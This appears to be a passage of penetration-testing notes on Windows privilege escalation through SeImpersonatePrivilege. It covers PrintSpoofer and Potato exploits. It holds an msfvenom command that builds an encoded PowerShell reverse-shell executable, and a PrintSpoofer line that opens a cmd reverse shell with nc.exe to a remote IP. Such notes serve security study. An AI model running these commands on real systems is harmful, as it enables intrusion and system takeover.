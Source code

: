 **IMPORTANT**: An executable may also be created with msfvenom:

```bash
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=$IP LPORT=3389 -f exe -a x64 --platform windows -b '\x00' -e x64\xor_dynamic -o nomefile.exe
```

## Using Exploits

Some privileges assigned to a non-privileged user could be exploited to perform privilege escalation:
- _SeImpersonatePrivilege_
- _SeBackupPrivilege_
- _SeAssignPrimaryToken_
- _SeLoadDriver_
- _SeDebug_

#### SeImpersonatePrivilege

It is very rare to find users with _SeImpersonatePrivilege_ enabled, but it is common to find it when getting *code execution* on a Windows system by exploiting a vulnerability on an IIS web-server.

In fact, IIS web-servers are often running as _LocalService_, _LocalSystem_, _NetworkService_, or _ApplicationPoolIdentity_, which may have _SeImpersonatePrivilege_ assigned.

Named-pipes are connected to _SeImpersonatePrivilege_ and are a method for local or remote inter-process communication. When a client connects to a named-pipe, the server can use _SeImpersonatePrivilege_ to impersonate the client after acquiring authentication from the connecting process.

So, by finding a suitable process, this can be exploited by making it connect to a named-pipe controlled by us.

To check user privileges:

```bash
whoami /priv
```

##### [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

```bash
# 1 Alternativa
.\PrintSpoofer64.exe -i -c powershell.exe

# 2 Alternativa (nc.exe)
.\PrintSpoofer64.exe -c "C:\programdata\nc.exe 172.16.7.240 1337 -e cmd"
```

##### [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

- [SweetPotato](https://github.com/uknowsec/SweetPotato/blob/master/README.md)
- GodPotato
- [JucyPotato](https://github.com/ohpe/juicy-potato/releases)
	- [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)
	- 
